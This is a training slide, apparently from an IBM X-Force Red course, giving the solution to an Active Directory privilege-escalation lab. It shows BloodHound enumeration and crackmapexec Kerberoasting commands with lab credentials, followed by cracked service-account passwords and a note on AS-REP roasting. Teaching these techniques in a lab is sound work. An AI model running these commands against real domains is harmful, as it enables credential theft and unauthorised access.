

# AD Privilege Escalation > Lab 3 – Solution
  Run Bloodhound to see which hosts the backup user has access to
/opt/bloodhound.py/bloodhound.py -u backup -p backup1 -d fmradio.local –c All
Attempt to Kerberoast, do you get any user back?
crackmapexec ldap –u backup –p backup1 --kerberoast roast.txt
We get the creds for the “svc-azure” user and “ansible”
svc-azure:azure2000
ansible:beansibley
What about ASREP roasting?
Also the svc-azure user

IBM Security X-Force Red / © 2022 IBM Corporation
35